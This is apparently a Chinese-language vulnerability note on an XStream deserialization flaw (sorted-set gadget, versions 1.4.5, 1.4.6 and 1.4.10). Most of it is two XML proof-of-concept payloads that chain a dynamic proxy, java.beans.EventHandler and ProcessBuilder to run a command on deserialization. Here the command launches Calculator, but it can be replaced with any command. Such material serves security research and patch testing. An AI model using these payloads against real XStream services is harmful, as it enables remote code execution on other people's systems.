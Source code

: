 ***person.xml***

```xml
<sorted-set>
<string>foo</string>
<dynamic-proxy>
<interface>java.lang.Comparable</interface>
<handler class="java.beans.EventHandler">
    <target class="java.lang.ProcessBuilder">
        <command>
            <string>open</string>
            <string>/System/Applications/Calculator.app</string>
        </command>
    </target>
    <action>start</action>
</handler>
</dynamic-proxy>
</sorted-set>
```





## 漏洞分析

### 1.基于sorted-set



#### 影响范围：

xstream1.4.6，1.4.5，1.4.10



#### POC：

```xml
<sorted-set>
<string>yds</string>
<dynamic-proxy>
<interface>java.lang.Comparable</interface>
<handler class="java.beans.EventHandler">
    <target class="java.lang.ProcessBuilder">
        <command>
            <string>open</string>
            <string>/System/Applications/Calculator.app</string>
        </command>
    </target>
    <action>start</action>
</handler>
</dynamic-proxy>
</sorted-set>
```
